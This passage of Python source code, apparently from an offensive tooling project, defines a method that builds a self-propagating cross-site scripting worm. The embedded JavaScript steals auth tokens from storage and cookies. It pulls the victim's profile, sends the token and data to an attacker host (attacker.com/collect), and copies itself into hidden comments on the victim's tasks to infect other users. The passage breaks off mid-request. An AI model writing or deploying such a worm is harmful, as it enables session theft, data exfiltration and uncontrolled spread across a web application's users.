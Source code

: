 ```python
        
        return results
    
    def create_xss_worm(self, target_endpoint):
        """Create self-propagating XSS worm"""
        print("\n[+] Creating XSS worm payload...")
        
        worm_payload = """
        <script>
        (function() {
            // Worm configuration
            const WORM_ID = 'xss_worm_v1';
            const API_BASE = window.location.origin + '/api';
            
            // Prevent re-infection
            if (window[WORM_ID]) return;
            window[WORM_ID] = true;
            
            // Steal authentication token
            const token = localStorage.getItem('token') || 
                         sessionStorage.getItem('token') ||
                         document.cookie.match(/token=([^;]+)/)?.[1];
            
            if (!token) return;
            
            // Exfiltrate user data
            fetch(API_BASE + '/users/profile', {
                headers: { 'Authorization': 'Bearer ' + token }
            })
            .then(r => r.json())
            .then(userData => {
                // Send stolen data to attacker server
                fetch('https://attacker.com/collect', {
                    method: 'POST',
                    body: JSON.stringify({
                        type: 'user_data',
                        token: token,
                        data: userData,
                        url: window.location.href,
                        timestamp: Date.now()
                    })
                }).catch(() => {});
            });
            
            // Propagate worm to other users
            setTimeout(() => {
                // Get user's tasks to find collaboration opportunities
                fetch(API_BASE + '/tasks', {
                    headers: { 'Authorization': 'Bearer ' + token }
                })
                .then(r => r.json())
                .then(tasks => {
                    tasks.slice(0, 3).forEach(task => {
                        // Inject worm into task comments
                        const wormComment = `
                            <div style="display:none">
                                <script>(${arguments.callee.toString()})();</script>
                            </div>
                            <p>Great work on this task! 👍</p>
                        `;
                        
                        fetch(API_BASE + '/comments/task/' + task.id, {
                            method: 'POST',
```